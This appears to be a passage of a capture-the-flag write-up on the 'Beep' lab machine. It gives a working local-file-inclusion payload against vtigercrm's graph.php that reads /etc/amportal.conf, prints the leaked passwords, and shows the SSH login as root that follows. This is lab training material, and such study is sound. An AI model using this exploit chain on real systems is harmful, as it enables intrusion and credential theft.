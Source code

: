 ## LFI leads to credential leak

From the search results `2.2.0 - 'graph.php' Local File Inclusion` looks promising, let me analyze the description with searchsploit
```
$ searchsploit -x 37637
```
so, this is the payload I have to submit to the server
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
using wget to store the results in `payload_result.html`
```
$ wget --no-check-certificate "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" -O payload_result.html && cat payload_result.html
```
from the resulting file contents, there's only one password that is not commented out and shows up repeatedly
```
$ cat payload_result.html | grep -i pass | grep -v "#"
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=jEhdIekWmdjE
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
``` 
I can now try my luck with ssh
```
$ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
I'm not sure why this error occurs, but I found a way in
``` 
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
```
and now I'm root, just go and get the flags!

## Python script to gain shell, but not root

